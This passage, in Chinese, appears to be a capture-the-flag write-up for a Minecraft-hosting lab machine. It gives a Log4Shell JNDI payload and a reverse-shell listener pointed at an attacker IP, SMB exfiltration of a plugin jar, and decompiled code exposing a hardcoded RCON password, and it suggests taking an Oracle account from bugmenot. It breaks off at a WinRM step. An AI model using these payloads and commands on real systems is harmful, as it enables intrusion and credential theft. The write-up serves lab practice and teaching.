 需要安装一下java8，通过[bugmenot](https://bugmenot.com/view/oracle.com)网站直接拿一个现成的#Oracle账号

```bash
tar -zxf  jdk-8u202-linux-x64.tar.gz
```

这个poc会创建一个web服务器和ldap服务器，并且通过命令行参数指定反弹shell的端口，这个脚本默认是执行的`/bin/bash`，把它改成`powershell.exe`

```bash
sudo rlwrap -cAr nc -lvnp 9001

python3 poc.py --userip 10.10.14.25 --webport 8000 --lport 9001
${jndi:ldap://10.10.14.25:1389/a}
```

登录到Minecraft服务器，发送一下payload: `${jndi:ldap://10.10.14.25:1389/a}`即可得到反弹shell

### Privilege Escalation 

将.jar文件搬运到kali中，并反编译分析一下jar文件的内容。

```powershell
python /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username qolt -password pass@word!

net use \\10.10.14.25\share /user:qolt pass@word!

PS C:\users\svc_minecraft\server\plugins> copy-item .\playercounter-1.0-SNAPSHOT.jar \\10.10.14.25\share 

```

#### jd-gui进行java反编译

[jd-gui](https://github.com/java-decompiler/jd-gui/releases/download/v1.6.6/jd-gui-1.6.6.deb)
```bash
wget https://github.com/java-decompiler/jd-gui/releases/download/v1.6.6/jd-gui-1.6.6.deb
```

```java
public final class Playercounter extends JavaPlugin {
  public void onEnable() {
    Rcon rcon = null;
    try {
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
    } catch (IOException e) {
      throw new RuntimeException(e);
    } catch (AuthenticationException e2) {
      throw new RuntimeException(e2);
    } 
```

##### runascs进行显式登录

###### 尝试本地开启winrm

首先尝试当前的用户能不能开启winrm
